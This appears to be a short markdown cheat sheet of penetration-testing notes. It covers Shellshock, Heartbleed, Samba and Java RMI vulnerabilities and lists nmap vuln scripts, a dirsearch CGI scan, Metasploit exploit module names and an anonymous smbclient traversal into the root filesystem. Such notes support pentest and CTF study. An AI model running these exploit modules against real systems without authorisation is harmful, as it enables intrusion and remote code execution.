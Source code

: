### Shellshock
* vulnerable through cgi paths
* `./dirsearch.py -u <URL> -e cgi -r`
* usually exploited through *User-Agent* HTTP header
`--script http-shellshock` - nmap script

### Heartbleed
* `--script ssl-heartbleed` - nmap vuln script
* Metasploit `use auxiliary/scanner/ssl/openssl_heartbleed` - exploitation
    * `show actions` - additional actions for the selected module

### Samba
* below 4.6.4 contains vulns that allow RCE
__Username Map Script
* msf> `use exploit/multi/samba/usermap_script`
__Samba Symlink Directory Traversal__
1. msf> `auxiliary/admin/smb/samba_symlink_traversal`
2. `smbclient \\\\<IP>\\<folder> -N`
3. smb> `cd rootfs` 

### Java RMI
* Port __1099/TCP__
* impacts default configurations of *RMI Registry* and *RMI Activation Services*
* allows loading of arbitrary Java classess form attacker-defined URL
* msf> `exploit/multi/misc/java_rmi_server`
